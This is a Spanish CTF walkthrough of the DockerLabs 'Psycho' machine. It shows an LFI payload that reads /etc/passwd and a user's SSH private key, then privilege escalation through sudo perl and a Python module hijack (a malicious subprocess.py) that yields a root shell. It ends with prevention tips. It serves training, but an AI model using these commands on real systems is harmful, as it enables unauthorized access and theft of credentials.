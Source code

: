 
# Máquina Psycho

![inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/inicioPsycho.png)

## Escaneo de la máquina

Comenzamos con un escaneo de puertos utilizando `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

Este escaneo nos revela que los puertos 22 (SSH) y 80 (HTTP) están abiertos.

## Enumeración del sitio web

Al acceder al puerto 80 en el navegador, encontramos una página aparentemente creada por `TLuisillo_o`, con un error en la parte inferior que dice `[!]ERROR[!]`. Esto podría indicar una vulnerabilidad.

Ejecutamos `gobuster` para buscar directorios y archivos ocultos:

```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak,html
```

Se encuentran dos rutas interesantes:

- `/assets` → Contiene una imagen, pero nada útil.
- `/index.php` → Parece vacío, pero podría estar vulnerable a **LFI (Local File Inclusion)**.

Probamos con `wfuzz`:

```bash
wfuzz -c -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 2596
```

El parámetro `secret` devuelve contenido, así que probamos:

```bash
http://172.17.0.2/index.php?secret=/etc/passwd
```

¡Tenemos un LFI! Vemos los usuarios `luisillo` y `vaxei`.

![LFI](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/LFI-Usuarios-Psycho.png)


## Explotando LFI para obtener SSH

Buscamos claves privadas:

```bash
http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```

Obtenemos la clave privada SSH de `vaxei`. La guardamos y le damos permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Nos conectamos por SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

## Escalada de privilegios a `luisillo`

Ejecutamos `sudo -l` y vemos que podemos ejecutar `perl` como `luisillo`.

Ejecutamos:

```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```

Luego, para hacer la shell interactiva:

```bash
bash -p
```

## Escalada de privilegios a `root`

Ejecutamos `sudo -l` nuevamente y vemos que podemos ejecutar `python3`.

En `/opt/` encontramos `paw.py`, que importa `subprocess`.

Creamos un archivo malicioso `subprocess.py`:

```bash
nano subprocess.py
```

Colocamos dentro:

```python
import os
os.system("bash -p")
```

Ejecutamos `paw.py` con sudo:

```bash
sudo python3 /opt/paw.py
```

Ahora somos `root`. Verificamos con:

```bash
whoami
```

### ¿Cómo funcionó este exploit?

Cuando `paw.py` ejecuta:

```python
import subprocess
```

Python busca `subprocess.py` en el directorio actual antes que en el sistema. Como creamos nuestro propio `subprocess.py`, se ejecutó nuestro código en vez del original, dándonos una shell de root.

### ¿Cómo prevenirlo?

- No usar `sudo python3 script.py` en directorios no confiables.
- Especificar rutas absolutas en imports.
- Verificar `PYTHONPATH`.
- Usar `importlib.util` para evitar imports no deseados.

---

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/

